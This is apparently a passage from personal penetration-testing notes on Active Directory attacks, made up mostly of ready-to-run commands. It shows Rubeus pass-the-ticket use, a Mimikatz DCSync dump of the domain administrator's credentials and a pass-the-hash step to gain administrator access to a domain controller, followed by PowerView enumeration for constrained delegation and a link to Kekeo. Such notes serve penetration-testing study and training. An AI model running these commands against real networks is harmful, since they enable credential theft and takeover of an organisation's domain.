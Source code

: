 ```
.\Rubeus.exe ptt /ticket:$BASE64_VALUE
```

```
.\Rubeus.exe triage
```

```
.\Rubeus.exe klist
```

```
Import-Module .\Invoke-Mimikatz.ps1
```

Dump lsa for administrator user:
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:pentesting\administrator"'
```

Copy the NTLM hash value.

Pass the hash with mimikatz to escalate to administrator.
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:$NETBIOS_DOMAIN_NAME /ntlm:$HASH /run:powershell.exe"'
```

```
invoke-command -ComputerName $DNS_COMPUTER_NAME -ScriptBlock{whoami;hostname}
```

You should see you are Administrator of the dc host.
Enter a PSSession on that host:
```
Enter-PSSession -ComputerName $NETBIOS_COMPUTER_NAME
```

#### 86 Constrained Delegation

>NEEDS LOCAL ADMIN USER ACCESS

Assuming you have PowerView.ps1 in temp/Tools directory.
```
cd %TEMP%/Tools
```

[[2._Powershell  Bypass#Execution bypass]]

```
Import-Module .\PowerView.ps1
```

Enumeration:
```
Get-DomainComputer -TrustedToAuth
```

Look for msds-allowedtodelegateto field.

Download Kekeo
https://github.com/gentilkiwi/kekeo/releases

